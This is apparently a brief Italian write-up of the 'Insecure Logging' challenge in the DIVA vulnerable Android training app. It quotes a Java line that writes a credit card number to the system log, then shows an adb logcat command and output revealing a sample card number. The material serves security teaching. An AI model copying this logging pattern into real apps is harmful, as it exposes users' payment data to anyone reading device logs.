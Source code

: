 ## Insecure Logging

Codice vulnerabile:

> app/src/main/java/jakhar/aseem/diva/LogActivity.java

```
Log.e("diva-log", "Error while processing transaction with credit card: " + cctxt.getText().toString());
```

Exploit:

`$ adb logcat | grep diva`

```
05-03 19:17:39.034  4298  4298 E diva-log: Error while processing transaction with credit card: 1234567890123456
```
